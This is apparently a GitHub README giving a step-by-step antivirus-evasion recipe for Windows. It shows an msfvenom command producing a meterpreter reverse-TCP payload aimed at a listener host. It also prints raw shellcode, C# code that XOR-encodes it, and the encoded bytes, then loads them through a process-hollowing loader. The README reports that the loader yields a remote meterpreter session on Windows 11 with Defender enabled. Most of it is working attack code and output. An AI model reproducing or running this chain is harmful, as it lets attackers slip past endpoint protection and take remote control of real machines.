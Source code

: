 ## Built and Tested with Visual Studio 2019
credit - [https://github.com/chvancooten/OSEP-Code-Snippets/tree/main](https://github.com/chvancooten/OSEP-Code-Snippets)

Generate metasploit payload
```python
┌──(kali㉿kali)-[/tmp]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp -f csharp LHOST=192.168.0.247 LPORT=443 EXITFUNC=thread
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Final size of csharp file: 2628 bytes
byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x48,0x31,
0xd2,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,0x48,0x0f,
0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
```

Open XOR-Encoder.cs in visual Studio and paste in the shellcode here

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/174b751e-b5c9-4d9d-bee1-846659544001)

Change the key to XOR Encode the shellcode if you wish
```python
byte[] encoded = new byte[buffer.Length];
            for (int i = 0; i < buffer.Length; i++)
            {
                encoded[i] = (byte)((uint)buffer[i] ^ 25678998); //KEY
            }

            StringBuilder hex = new StringBuilder(encoded.Length * 2);
            int totalCount = encoded.Length;
            for (int count = 0; count < totalCount; count++)
```

Turn off Defender on your dev machine as it will flag the raw metasploit shellcode and wont run the exe

Set to `Release` and `x64` (Change where necessary)

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/e3990de2-72e0-4106-8345-59b7372cb381)

Click Build > Build Solution

Build should happen with no errors

```python
Build started...
1>------ Build started: Project: XOR-Shellcode-Encoder, Configuration: Release x64 ------
1>  XOR-Shellcode-Encoder -> C:\Users\gd\Desktop\Custom Exploits\repos\XOR-Shellcode-Encoder\XOR-Shellcode-Encoder\bin\x64\Release\XOR-Shellcode-Encoder.exe
========== Build: 1 succeeded, 0 failed, 0 up-to-date, 0 skipped ==========
```

Navigate to the folder and run the .exe

You will get the XOR encoded shellcode

```python
PS C:\Users\gd\Desktop\Custom Exploits\repos\XOR-Shellcode-Encoder\XOR-Shellcode-Encoder\bin\x64\Release> .\XOR-Shellcode-Encoder.exe
XOR payload (key: 0xfa):
byte[] buf = new byte[511] {
0x6a, 0xde, 0x15, 0x72, 0x66, 0x7e, 0x5a, 0x96, 0x96, 0x96, 0xd7, 0xc7, 0xd7, 0xc6, 0xc4,
0xde, 0xa7, 0x44, 0xc7, 0xc0, 0xf3, 0xde, 0x1d, 0xc4, 0xf6, 0xde, 0x1d, 0xc4, 0x8e, 0xde,
0x1d, 0xc4, 0xb6, 0xde, 0x1d, 0xe4, 0xc6, 0xde, 0x99, 0x21, 0xdc, 0xdc, 0xdb, 0xa7, 0x5f,
0xde, 0xa7, 0x56, 0x3a, 0xaa, 0xf7, 0xea, 0x94, 0xba, 0xb6, 0xd7, 0x57, 0x5f, 0x9b, 0xd7,
0x97, 0x57, 0x74, 0x7b, 0xc4, 0xde, 0x1d, 0xc4, 0xb6, 0xd7, 0xc7, 0x1d, 0xd4, 0xaa, 0xde,
0x97, 0x46, 0xf0, 0x17, 0xee, 0x8e, 0x9d, 0x94, 0x99, 0x13, 0xe4, 0x96, 0x96, 0x96, 0x1d,
0x16, 0x1e, 0x96, 0x96, 0x96, 0xde, 0x13, 0x56, 0xe2, 0xf1, 0xde, 0x97, 0x46, 0xd2, 0x1d,
0xd6, 0xb6, 0x1d, 0xde, 0x8e, 0xdf, 0x97, 0x46, 0xc6, 0x75, 0xc0, 0xdb, 0xa7, 0x5f, 0xde,
0x69, 0x5f, 0xd7, 0x1d, 0xa2, 0x1e, 0xde, 0x97, 0x40, 0xde, 0xa7, 0x56, 0xd7, 0x57, 0x5f,
0x9b, 0x3a, 0xd7, 0x97, 0x57, 0xae, 0x76, 0xe3, 0x67, 0xda, 0x95, 0xda, 0xb2, 0x9e, 0xd3
```
Open `P-Hollow` in Visual Studio

Paste the XOR Encoded Shellcode in (You can turn on Defender now it wont be picked up) 

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/d8da75b5-2687-4ac8-a27a-25bd4f071332)

If you changed the XOR Key in the previous file, ensure you change it here aswell otherwise it wont decode 

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/fd36f91e-f5fc-4d00-89c0-0ed04b66f9ac)

Set to `Release` and `x64`

Now depending on what access you already have, execute the .exe and catch in Metasploit.

Here I am executing from a network share (impacket-smbserver) I configued

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/8602d6cc-a3d1-4ecf-8363-f0f281324f03)

Fully functioning meterpreter session on latest Windows 11 with Defender Enabled

![image](https://github.com/deeexcee-io/AV-Stuff/assets/130473605/2dcbf6d6-951e-4b09-83fa-3d9092a87546)












